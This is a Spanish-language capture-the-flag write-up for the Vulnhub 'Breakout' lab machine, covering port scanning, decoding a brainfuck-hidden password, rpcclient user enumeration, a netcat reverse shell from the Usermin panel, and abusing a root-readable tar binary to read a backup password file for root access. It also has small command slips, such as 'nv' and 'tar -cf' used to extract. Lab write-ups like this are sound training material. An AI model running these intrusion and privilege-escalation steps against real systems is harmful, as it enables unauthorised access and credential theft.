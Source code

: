 ```yaml
---
title: Vulnhub - Breakout
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'Information Leakage', 'RPC (User Enumeration)']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/Breakout/logo.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Breakout Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **Information Leakage, RPC (User Enumeration)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Vulnhub/Easy/Breakout/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/Vulnhub/Easy/Breakout/02-versions.png)

c. Al fijarnos en el código fuente de la página web (**http://<IP Breakout>**), encontramos una credencial codificada en brainfuck

```brainfuck
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```

* Lo decodeamos en [dcode](https://www.dcode.fr/brainfuck-language) y la veremos en texto claro **.2uqPEfj3D<P'a-3**
* Como no tenemos un usuario válido, lo que haremos es enumerarlos con **rpcclient**

    ```bash
    cat /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt | while read username; do rpcclient -N -U "" <IP Breakout> -c "lookupnames $username"; done | grep -v "NT_STATUS_NONE_MAPPED"

    <SNIP>
    cyber S-1-22-1-1000 (User: 1)
    <SNIP>
    ```

d. El usuario cyber* es válido para **https://<IP Breakout>:20000/**

* Una vez logueados en el panel de **Usermin** lo que haremos es ponernos en escucha **`nc -lvnp 443`** y enviarnos una shell

    ![](/assets/images/Vulnhub/Easy/Breakout/03-usermin.png)

    ```bash
    -$ nv -lvnp 443
    cyber@breakout:~$
    ```

### Escalada de Privilegios 💹

a. Vemos un binario **tar** en el directorio de cyber

```bash
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
```

b. En **/var/backups/** vemos fichero **.old_pass.bak** el cual comprimiremos usando el binario tar que está en el directorio personal de cyber

```bash
cyber@breakout:~$ ./tar -cf compress.tar /var/backups/.old_pass.bak
```

* Ahora, descomprimimos **`tar -cf compress.tar`**, ahora ya podemos ver el contenido de .old_pass.bak el cual contiene una credencial en texto claro **Ts&4&YurgtRX(=~h**, usaremos esta contraseña para convertirnos en el usuario **root**

    ```bash
    cyber@breakout:~/var/backups$ su root
    Password: Ts&4&YurgtRX(=~h
    root@breakout:/home/cyber/var/backups#
    ```